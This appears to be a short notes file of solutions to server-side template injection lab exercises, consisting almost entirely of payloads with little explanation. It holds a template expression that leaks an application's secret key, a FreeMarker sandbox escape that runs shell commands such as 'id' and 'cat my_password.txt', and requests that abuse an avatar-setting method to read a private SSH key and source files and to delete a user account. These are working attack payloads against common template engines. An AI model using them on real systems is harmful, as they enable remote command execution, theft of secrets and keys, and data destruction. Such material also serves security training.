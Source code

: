 # SSTI : Server-side template injection 



<p>Hurry! Only {{product.stock}} left of {{product.name}} at {{product.price}}.{{settings.SECRET_KEY}}</p>







### Server-side template injection in a sandboxed environment
Payload 
```html

<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.Hello 

<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}



<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("ls -l")}


<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}

</p>
```


### Server-side template injection with a custom exploit

Payload
```
1.Upload txt file and see the error

PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar(('/tmp/hello.txt', 'text/plain'))
#1 {main}
  thrown in /home/carlos/User.php on line 28


blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX





blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX


blog-post-author-display=user.gdprDelete()&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX



```
